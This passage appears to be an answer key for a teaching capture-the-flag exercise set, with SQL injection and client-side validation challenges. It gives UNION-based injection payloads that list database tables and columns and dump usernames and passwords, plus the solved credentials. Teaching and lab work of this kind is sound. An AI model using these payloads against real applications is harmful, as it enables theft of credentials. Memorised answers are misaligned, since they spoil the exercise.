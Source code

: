 Next, retrieve the usernames and passwords from the fakebook (Note that
because only one column is displayed to the user, the student is to use
the concat function to display both the username and password in one
column):

1 union select concat(username,char(44),password) from fakebook

Crack the md5 hash for the password of LeonSKennedy with an MD5 cracker

Final answer:

Username = LeonSKennedy

Password = adawong

**Notflix (SQLi)**

In this challenge, the student can search for movies in the search box
but only the Top 3 movies will be shown. So, to conduct an SQLi attack
to obtain the password of Eric Law successfully, the student has to use
the OFFSET clause to allow the application to return different rows.

[Answer:]{.underline}

To obtain the names and their respective schemas of the tables in the
database: (Where X is a number that the student has to increment from 0,
at position 31, "PUBLIC.USERS" will be shown)

4%\' UNION SELECT 1,table_name,table_schema from
information_schema.tables OFFSET X;\-- -

With the table name and schema, the columns in that table can be
retrieved (Where X can be configured to return different rows):

4%\' UNION SELECT 1,table_name,column_name FROM
INFORMATION_SCHEMA.columns WHERE table_name=\'users\' OFFSET X;\-- -

After discovering the two required fields -- username and password, the
username and password of Eric Law can be retrieved (Where X can be
configured to return different user):

4%\' UNION SELECT 1,username,password FROM PUBLIC.users OFFSET X;\-- -

**SQLi Basics Two (SQLi)**

The idea behind this challenge is that the system blacklists any SQL
comments in the input fields and the password field is not vulnerable to
SQLi as passwords are hashed in the database. Because of this, the
student must understand the concept of operator precedence before being
able to carry out the attack successfully.

[Answer:]{.underline}

**Goggle Form (Validation)**

This is a simple challenge whereby it teaches the students how it is
possible to bypass validation checks if they are simply on the
client-side.

[Answer:]{.underline}

